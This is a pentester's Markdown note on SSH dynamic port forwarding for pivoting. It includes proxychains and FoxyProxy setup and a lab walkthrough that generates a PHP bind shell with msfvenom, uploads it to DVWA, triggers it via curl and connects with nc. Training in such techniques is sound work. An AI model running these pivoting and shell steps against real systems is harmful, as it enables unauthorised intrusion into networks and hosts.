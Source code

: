 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - socks-proxy
  - living-off-the-land
  - living-off-the-foreign-land
  - linux
---
```

# Dynamic Port Forwarding

> [!IMPORTANT] Configuration Conditions
> In the `/etc/ssh/sshd_config`. `AllowTcpForwarding` must be enabled. Below you'll see the configuration.
> ```
$ cat /etc/ssh/sshd_config
..[omitted]..
AllowTcpForwarding yes
..[omitted]..
> ```

## 01 - Usage

Syntax usage to create a dynamic port forwarding.

```
$ ssh -D [<bind_local_IP>:]<local_SOCKS_PORT> <username>@<pivot_SSH_IP>
```

### 1.1 - Using `proxychains`

```
$ cat /etc/proxychains4.conf
..[omitted]..
socks4  127.0.0.1 <local_SOCKS_PORT>

$ proxychains firefox <target_IP>
```

### 1.2 - FoxyProxy

You can use a **FoxyProxy** firefox extension to create a pattern

![[01 - New SOCKS Proxy Configuration.png]]

Then select **SOCKS4 Proxy** that you've created.

![[02 - Select SOCKS Proxy.png]]

### 1.3 - Web Browser Network Settings

You can go to Firefox's **Network Settings**

![[03 - Firefox Network Settings.png]]

Then edit the **SOCKS Host**

![[04 - Firefox Manual Proxy Configuration.png]]

## 02 - Scenarios

### 2.1 - Bind Shell via Proxychains

TODO: Make a network topology diagram to illustrate the pivoting scenario and redo the lab

Let's say we were able to compromise the machine and got the SSH credentials and finally establish the SSH server as a foothold to start a socks proxy dynamic port forwarding 1080

```
userware@hackware-os:~$ ssh -NTfCq -D1080 vagrant@10.0.2.10
```

![[01 - Linux Machine Pivoting.png]]

Then we configure the SOCKS4/SOCKS5 through **FoxyProxy** firefox extension with the following settings

![[02 - New SOCKS Proxy Configuration.png]]

Then we choose the **SOCKS4 Proxy** to make connection to the webserver

![[03 - Select FoxyProxy Pattern.png]]

We will use the **DVWA (Damn Vulnerable Web Application)** as an example to simulate the cyber attack of the file upload vulnerability

![[04 - DVWA File Upload Webpage.png]]

We generate a PHP bind shell then we upload it.

```
userware@hackware-os:~$ msfvenom -p php/bind_php lport=8888 -f raw -o shell.php
```

![[05 - Callback Shell Uploaded.png]]

Then we must activate the PHP bind shell to start a listener of port **8888** and there are two ways to do it:

- Method 1: Navigate through the URL with FoxyProxy

Using any web browser like firefox to navigate the path of the URL.

![[06 - Navigate URL FoxyProxy.png]]

- Method 2: Proxychains with cURL

Using the `curl` command with `proxychains` to execute the webserver while pivoting.

```
userware@hackware-os:~$ proxychains curl -X GET http://192.168.56.106/dvwa/hackable/uploads/shell.php
```

It starts a listening port of **8888** that is awaiting for connection from the compromised webserver

```
$ ss -lnt
State        Recv-Q       Send-Q             Local Address:Port               Peer Address:Port       Process
LISTEN       0            128                      0.0.0.0:8888                    0.0.0.0:*
LISTEN       0            511                            *:80                            *:*
```

Establishing the bind shell to execute further commands by entering the IP address and the Port that we've generated the bind shell.

```
userware@hackware-os:~$ proxychains nc 192.168.56.106 8888
```

![[07 - Callback Shell via Proxychains.png]]

This can be tunneled with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x00 - Payloads/Helpers/Webshells/PHP|webshells]].

---
## References

### InternalAllTheThings

- [InternalAllTheThings: Network Pivoting Techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/)

### Certcube

- [Certcube: Pivoting and SSH Port Forwarding Basics](https://blog.certcube.com/pivoting-and-ssh-port-forwarding-basics/)

- [Certcube: Pivoting Port Forwarding](https://blog.certcube.com/pivoting-port-forwarding/)

### RawSec

- [RawSec: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Anestis Bechtsoudis

- [Anestis Bechtsoudis: Using SSH Socks Proxies with MSF Reverse TCP Payloads](https://bechtsoudis.com/archive/2012/06/08/using-ssh-socks-proxies-with-msf-reverse-tcp-payloads/index.html)

### SlayerLabs

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)